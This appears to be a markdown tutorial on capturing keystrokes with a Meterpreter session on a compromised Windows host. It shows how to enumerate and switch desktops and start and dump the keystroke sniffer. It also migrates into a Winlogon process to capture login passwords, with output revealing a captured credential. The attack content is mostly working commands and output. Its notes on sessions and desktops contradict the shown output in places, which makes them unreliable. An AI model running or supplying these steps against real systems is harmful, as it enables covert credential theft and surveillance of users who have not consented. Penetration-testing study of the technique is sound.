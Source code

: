 ## Listing all the accessible desktops and window stations:
```python
meterpreter > enumdesktops
Enumerating all accessible desktops

Desktops
========

    Session  Station  Name
    -------  -------  ----
    1        WinSta0  Default
    1        WinSta0  Winlogon
```
Here you can see that all the available desktop stations are associated with session 1.

## Listing the current desktop in which our Meterpreter session is working:
```python
meterpreter > getdesktop
Session 1\W\D
```

## Setting the current desktop of Meterpreter to another available desktop station:
```python
meterpreter > setdesktop
Changed to desktop WinSta0\Default
```

## Starting the keystroke sniffer in the current active desktop station:
```python
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```

## Output of keystroke sniffer:
```python
meterpreter > keyscan_dump
Dumping captured keystrokes...
 666macos<^S>
```

### Some points to focus before using keystroke sniffer:
1. Windows desktop is divided into different sessions. Session 0 represents the console. The other sessions, Session 1, Session 2, and so on, represent remote desktop sessions.
2. Every Windows session can be comprised of different stations, out of which `WinSta0` is the only interactive station, meaning that it is the only station that the user can interact with.
3. `WinSta0` consists of three different desktops, namely, `Default`, `Disconnect`, and `Winlogon`. 
4. The `Default` desktop is associated with all the applications and tasks that we perform on our desktop.
5. The `Disconnect` desktop is concerned with the screensaver lock desktop
6. The `Winlogon` desktop with the Windows login screen.
7. IMP - Each desktop has its own keyboard buffer. So, if you have to sniff the keystrokes from the `Default` desktop, you will have to make sure that your current Meterpreter active browser is set to `Session 0/WinSta0/Default`. 
8. If you have to sniff the login password, you will have to change the active desktop to `Session 0/WinSta0/Winlogon`.

## Lets sniff keystrokes from `Default` desktop station:
```python
meterpreter > getdesktop
Session 1\W\D
meterpreter > setdesktop
Changed to desktop WinSta0\Default
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > getdesktop
Session 1\WinSta0\Default
meterpreter > keyscan_dump
Dumping captured keystrokes...
 666macos<^S>
```

## Lets sniff keystrokes from `Winlogon` desktop station:
```python
meterpreter > getdesktop
Session 1\W\D
meterpreter > migrate 432
[*] Migrating from 3812 to 432...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 2\W\W
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
vagrant<CR>
```

## Migrating to again `Default` desktop station or session:
```python
meterpreter > migrate -N explorer.exe
[*] Migrating from 432 to 3236...
[*] Migration completed successfully.
```

